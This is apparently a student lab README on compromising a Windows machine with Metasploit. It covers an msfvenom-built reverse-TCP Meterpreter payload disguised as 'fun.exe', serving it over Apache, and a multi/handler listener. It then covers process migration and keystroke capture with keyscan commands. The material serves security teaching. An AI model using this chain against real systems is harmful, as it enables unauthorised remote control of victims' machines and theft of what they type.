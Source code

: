 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![1](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/8cfa1f24-947f-4a5f-b91b-3fd8a5aa8b07)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![2](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/531f5f7e-e5e9-47c1-96f9-42ed06865c5d)

copy the fun.exe into the apache /var/www/html folder

![3](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/aef02176-708a-4b26-b46e-068c69df4c63)

copy the fun.exe into the apache /var/www/html folder

![4](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/bb9737a9-4b59-45d4-8ee1-ac105a0e8dee)

Check the status of apache2
![5](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/e73a57b1-266b-4fd3-989f-f2fba75e1ded)

Invoke msfconsole:

![6](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/8a4cfa2e-b6a8-41b4-9930-3c6d9aa357ae)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/6f553616-2db9-4823-b759-c3fb229f57c9)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![8](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/c8ad82b7-a478-464b-88d6-2f8d0840109c)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![9](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/31acefb4-b780-4d14-84f7-f2c30160b52d)

Bypass any warning boxes, double-click the file, and allow it to run.

![10](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/9e7cb0e3-a8c2-4578-97aa-d0d04007a097)

On kali give the command exploit

![11](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/1d873a7b-f9c1-4d8a-9272-e669e56e7a49)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![12](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/0e187c30-83f2-413b-a055-e228672d427b)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![13](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/6a5558e8-fb08-4339-861a-2103b6f8fd8b)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![14](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/0ecb9b64-f626-4f9a-a0de-a8ec0591fe08)

![15](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/566a36e7-9ed1-4063-a62d-547cd1de141e)

keyscan_dump Shows the keystrokes captured so far

![16](https://github.com/Nandhinijaya/Compromising-windows-using-Metasploit/assets/121998147/7a63ff7f-c2e5-42cf-a7ff-2184aebd5133)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
